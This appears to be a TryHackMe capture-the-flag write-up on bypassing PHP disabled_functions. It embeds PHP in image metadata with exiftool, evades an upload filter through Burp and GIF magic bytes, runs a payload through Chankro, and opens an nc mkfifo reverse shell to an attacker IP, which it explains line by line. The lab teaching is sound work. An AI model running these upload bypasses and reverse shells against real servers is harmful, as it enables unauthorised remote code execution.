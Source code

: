 ```yaml
---
title: 'TryHackMe - Bypass Disable Functions'
description: "How to get around PHP disabled_functions utilizing Local File Injection (LFI) and a bit on named pipes and reverse shells."
author: 'Tim Sonner'
date: '2023-09-26'
hero: '/thm-bdf/thm-bdf-hero.jpg'
published: true
---
```

![](/thm-bdf/thm-bdf-hero.jpg)

> Picture of an European common cat using Tamron AF 70-300mm F4-5.6 Di LD Macro 1:2 lens
> Date 	18 December 2010
> Source 	Own work
> Author 	Florinux  
> http://www.wikimapia.org/#lat=44.647834&lon=7.6567841&z=14&l=4&m=b  


# THM - Bypass Disable Functions  
https://tryhackme.com/room/bypassdisablefunctions  

## First spin up the target machine and navigate to the upload CV page  

We're going to upload an image with a PHP payload. Its benign and will help us gain info about the target system. I searched the interweb for a cat image, I saved it with the .jpg extension.  

## Generate phpinfo() payload using exiftool to inject PHP into an image's Meta Data  
```  
exiftool -Comment='<?php phpinfo(); ?>' ./street-cat.jpg  
```  

## Browse for the image file using the CV upload form. Before submitting, make sure you have Burp Suite setup to intercept requests to the target. Toggle Intercept On and submit the image.  

![](/thm-bdf/thm-bdf-upload.png)

## Modify teh POST request to change image file extension from .jpg to .php  
![](/thm-bdf/thm-bdf-burp.png)

## Navigate to /uploads/street-cat.php  
For later payloads, we can use curl...  
```  
curl https://x.x.x.x/uploads/tryhackme.php
```  

## We are presented with phpinfo()  
![](/thm-bdf/thm-bdf-phpinfo.png)  

Take a look at the disabled_functions and DOCUMENT_ROOT envir0nment variables. The disabled_functions var tells us we can't use many of the classic PHP payload functions. We must resort to using other means. 

## Download and install Chankro  
https://github.com/TarlogicSecurity/Chankro/tree/master

## Generate bash payload (c.sh) using your favorite flavor of text editor or echo. Modify the filepath using CONTEXT_DOCUMENT_ROOT
```bash  
#! /bin/bash
find / flag*.txt > /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/flag-location.txt  
#cat /path/to/flag/flag.txt > /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/flag.txt
```  

## Ex3cute chankro command using the path in CONTEXT_DOCUMENT_ROOT as an argument to generate a .php file  
```  
python2 chankro.py --arch 64 --input c.sh --output tryhackme.php --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/  
```  
## Add the magic gif word (GIF87a) to the top of the php file. 1 is line number, i is insert  
```  
sed -i '1iGIF87a' tryhackme.php
```  
## Rename the .php file extension to .jpg  
```  
mv tryhackme.php tryhackme.jpg
```  
## Upload the image file using BurpSuite to rename the extension .php  
![](/thm-bdf/thm-bdf-burp-2.png)

## Navigate to /uploads/tryhackme.php  

Try a few payloads... Once the flag is captured, we need to spin up a reverse shell for the sake of learning.  

## Generate a reverse shell payload  
https://revshells.com  
The nc mkfifo payload is very nice.  Change the IP to your attacker machine IP. Run 'ip addr' and look for tun0 or tun1

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```  

## Setup the netcat listener on localhost    
```  
nc -nvlp 9001
```  

## Navigate to or curl /uploads/tryhackme.php  
![](/thm-bdf/thm-bdf-nc-mkfifo-shell.png)  

I tried a few variations before settling on the nc mkinfo method. Some results of my testing show us the nature of what Chankro is doing behind the scenes. We obviously called the mail() PHP function to get our c.php to run. Kindof ingenious.  

## Bind shell  
![](/thm-bdf/thm-bdf-bind-shell.png)  

## Reverse Shell  
![](/thm-bdf/thm-bdf-rev-shell.png)


# Tangent about Reverse Shells and Named Pipes  
```  
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```  

Here’s how it works:

1. **```rm /tmp/f;```** Deletes the file named “f” in the “/tmp” directory if it exists.
2. **```mkfifo /tmp/f;```** Creates a named pipe (FIFO) named “f” in the “/tmp” directory. This pipe acts as a stack for data between processes (First In First Out).
3. **```cat /tmp/f|```** Reads from the named pipe “f.” It effectively listens for any data written into the pipe and sends any data it reads to the standard input (stdin) of the interactive shell.
4. **```sh -i 2>&1|```** Starts an interactive shell (“sh”) and redirects stderr to the same address stdout is using. 2 represents standard error, 1 represents standard output. Redirect to address.
5. **```nc 10.10.10.10 9001```** Initiates a network connection to IP address 10.10.10.10 on port 9001.
6. **```>/tmp/f```** Redirects the standard output of the entire command (including the output from the interactive shell and the output from “nc”) to the named pipe “f” which is then read by **```cat```**.

## Links I found along the way...  
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass  

https://www.positioniseverything.net/php-shell_exec/  

https://www.tarlogic.com/blog/bypass-disable_functions-open_basedir/  

https://shahjerry33.medium.com/remote-code-execution-via-exif-data-im-dangerous-43557d7f3e7a  

https://marketsplash.com/tutorials/php/php-reverse-shell/  

https://github.com/pentestmonkey/php-reverse-shell  

https://www.geeksforgeeks.org/uploading-a-reverse-shell-to-a-web-server-in-kali-linux/  

https://highon.coffee/blog/reverse-shell-cheat-sheet/  

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  

https://labs.watchtowr.com/cve-2023-36844-and-friends-rce-in-juniper-firewalls/